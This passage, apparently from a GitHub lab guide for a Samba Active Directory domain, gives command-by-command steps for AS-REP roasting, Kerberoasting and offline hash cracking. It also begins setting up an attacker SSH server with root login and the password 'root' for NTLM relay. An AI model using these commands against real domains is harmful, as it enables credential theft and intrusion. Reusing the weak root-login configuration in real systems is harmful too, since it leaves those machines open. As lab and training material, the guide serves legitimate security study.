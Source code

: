 **[NOTE:]** This does not work when using Heimdal Kerberos in Samba

2. Add to `krb5.conf` file at `[libdefaults]` the line : `allow_rc4 = true`
3. Ask for the TGT without pre-Authentication.
```bash
GetNPUsers.py polaris.org/ -request -no-pass -usersfile valid_users.txt
```
4. Use Hascat/John to decrypt the hash.
```bash
# John
john --wordlist=<wordlist> <hash_file>

# Hashcat
hashcat -m 18200 <hash_file> <wordlist> -o asrephash.cracked --force --quiet
```

#### Kerberoasting

1. Add a user with a Service Principal Name (SPN) that will be the target of the attack. Despite this account not running a service, the account only needs an SPN set to be vulnerable to the attack.
```bash
/usr/local/samba/bin/samba-tool user create walter.white Metho1o590oA$elry
/usr/local/samba/bin/samba-tool spn add HTTP/polaris.org walter.white
```

2. Use an LDAP filter to obtain kerberoastable users.
```bash
ldapsearch -H ldap://192.168.122.10 -D "CN=skyler.white,CN=Users,DC=polaris,DC=org" -w "Password123" -b "DC=polaris,DC=org" -x -ZZ -LLL '(&(objectClass=user)(servicePrincipalName=*)(!(cn=krbtgt))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))'
```

3. Run the modified version of GetUserSPNs.py.
```bash
GetUserSPNs.py -request polaris.org/skyler.white:Password123 -dc-ip 192.168.122.10 -spn HTTP/polaris.org -userSPN walter.white
```

4. Use Hascat/John to decrypt the hash.
```bash
# John
john --wordlist=<wordlist> <hash_file>

# Hashcat
hashcat -m 13100 <hash_file> <wordlist>
```
#### NTLM Relay
###### Preparation

1. Configure SSH server on the attacker. [Install SSH through Dockerfile]
```bash
apt install openssh-server
nano /etc/ssh/sshd_config -> PermitRootLogin yes
service ssh start
passwd root -> pass:root
```
